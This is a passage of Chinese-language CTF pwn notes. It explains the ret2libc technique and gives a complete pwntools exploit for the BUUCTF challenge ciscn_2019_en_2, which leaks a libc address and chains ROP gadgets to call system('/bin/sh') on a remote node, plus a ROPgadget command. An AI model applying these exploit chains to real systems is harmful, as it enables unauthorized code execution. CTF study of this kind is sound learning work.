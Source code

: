 ```python
p.sendlineafter('info:',payload)
p.sendlineafter('Exit\n:',b'4')
p.interactive()
```

#### ret2libc

原理：利用栈溢出漏洞，劫持返回地址，利用程序已链接库中的函数，来进行取shell不需要注入自定义的 shellcode 或者系统调用指令。需要了解libc和延迟绑定，了解ELF执行后，第一次调用函数，会实现一个延迟绑定当函数没system和"/bin/sh"时，就需要调用libc里面的，首先**找到libc的基地址**，通过已知函数的地址，输出在libc中的地址，来计算基地址

当程序没有可利用函数时，而且开启了NX栈不可执行时，就考虑打libc

工具：glibc-all-in-one

例子：来自[BUUCTF在线评测 (buuoj.cn)](https://buuoj.cn/challenges#ciscn_2019_en_2)

exp

```python
from pwn import *
from LibcSearcher import *
context(os='linux',arch='amd64',log_level='debug')
p=remote('node5.buuoj.cn',29969)
#p=process('./ciscn_2019_en_2')
elf=ELF('./ciscn_2019_en_2')
pop_rdi=0x400c83
puts_plt=elf.plt['puts']
puts_got=elf.got['puts']
main_addr=elf.sym['main']
ret_addr=0x4006b9

p.sendlineafter('choice!\n',b'1')
payload1= flat(b'\x00',b'A'*0x57,p64(pop_rdi),p64(puts_got),p64(puts_plt),p64(main_addr))
p.sendlineafter('encrypted\n',payload1)
puts_addr=u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))

print(hex(puts_addr))
libc=LibcSearcher('puts',puts_addr)
base=puts_addr-libc.dump('puts')
print(hex(base))
system_addr=base+libc.dump('system')
bin_sh=base+libc.dump('str_bin_sh')
p.sendlineafter('choice!\n',b'1')

payload2=flat(b'\x00',b'A'*0x57,p64(ret_addr),p64(pop_rdi),p64(bin_sh),p64(system_addr))
p.sendlineafter('encrypted\n',payload2)
p.interactive()
```

#### ROP技巧等

工具：ROPgadget

```bash
ROPgadget --binary pwn1 --only "pop|ret" #找到pop链
```
